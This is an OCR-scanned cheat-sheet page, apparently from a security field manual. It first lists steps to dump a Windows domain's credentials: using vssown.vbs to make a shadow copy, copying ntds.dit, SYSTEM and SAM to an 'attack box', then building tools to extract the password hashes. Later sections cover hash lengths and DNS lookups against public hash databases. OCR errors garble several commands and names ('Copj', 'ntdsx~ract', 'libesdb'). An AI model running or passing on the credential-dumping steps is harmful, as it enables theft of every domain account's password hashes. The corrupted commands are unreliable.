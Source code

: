 ## Vsown command

```text
1. Download: http://ptscripts.googlecode.com/svn/trunk/windows/vssown.vbs
2. Create a new Shadow Copj
     a. cscript vssown.vbs /start (optional)
     b. cscript vsown.vbs /create
3. Pull the following files frorr. a shadow copj:
     a. Copy
     \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy[X]\windows\
     ntds\ntds.dit.
b. copj
     \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy[X]\windows\
     System32\config\SYSTEM.
     C. COpj
     \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy[X]\windows\
     system32\config\SAM.
4. Copj files to attack box.
5. Download tools: http://www.ntdsx~ract.com/downloads/ntds dump_hash.zip
6. Configure and Make source code for libesedb from the extracted package
     a. cd libesdb
     b. chmod +x configure
     c. ./configure && make
Use esedbdumphash to extract the data table from ntds.dit.
     a. cd esedbtools
     b. . I esedbdumphash ../../ntds.dit
```

## File hash

### Hash length

```text
MD5 16 bytes
SHA-1 20 bytes
SHA-256 32 bytes
SHA-512 64 bytes
```

### Software with different hash databases

```text
http://isc.sans.edu/tools/hashsearch.html
# dig +short md5 .md5.dshield.org TXT
Result = "filename I source" i.e. "cmd.exe I NIST"
```

### Malware hash database

```text
http://www.team-cymru.org/Services/MHR
# dig +short [MD5|SHA-1].malware.hash.cymru.com TXT
Result = last seen timestamp AV detection rate
Convert timestamp= perl-e 'print scalar localtime( timestamp ), "\n"'
```

